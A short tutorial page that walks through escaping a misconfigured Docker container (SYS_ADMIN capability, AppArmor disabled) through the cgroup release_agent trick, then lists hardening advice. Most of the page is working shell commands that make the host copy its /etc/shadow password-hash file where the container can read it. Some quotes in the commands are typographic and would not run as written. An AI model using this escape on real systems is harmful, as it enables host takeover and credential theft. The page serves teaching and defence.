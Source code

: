 # Escaping from a Docker container

## SYS\_ADMIN capability and AppArmor disabled

{% hint style="info" %}
Note that these aren't default settings
{% endhint %}

```text
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

Then in the container, we are going to run these commands.

```text
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n ‘s/.*\perdir=\([^,]*\).*/\1/p’ /etc/mtab`
echo “$host_path/cmd” > /tmp/cgrp/release_agent
echo ‘#!/bin/sh’ > /cmd
echo “cat /etc/shadow > $host_path/shadow” >> /cmd
chmod a+x /cmd
sh -c “echo \$\$ > /tmp/cgrp/x/cgroup.procs”
```

Once you execute the above commands, you can see the host OS’s passwords in /shadow folder

```text
cat /shadow
```

As we can see we were able to break out of the container. Suffice to say, we abused misconfigurations to escape a container.  
This wouldn’t have happened if the non-root user was used, SYS\_ADMIN and AppArmor profile wasn’t disabled.  
In short,

1. Do not use –privileged flag, it disables all the security mechanisms placed by docker.
2. Do not mount root volumes into the containers.
3. Do not mount docker.sock inside the containers.
4. Default docker settings are sane, please do not disable them or add more capabilities.
5. Use SecComp and AppArmor profiles to harden the container.
6. Do not run containers as the root user.

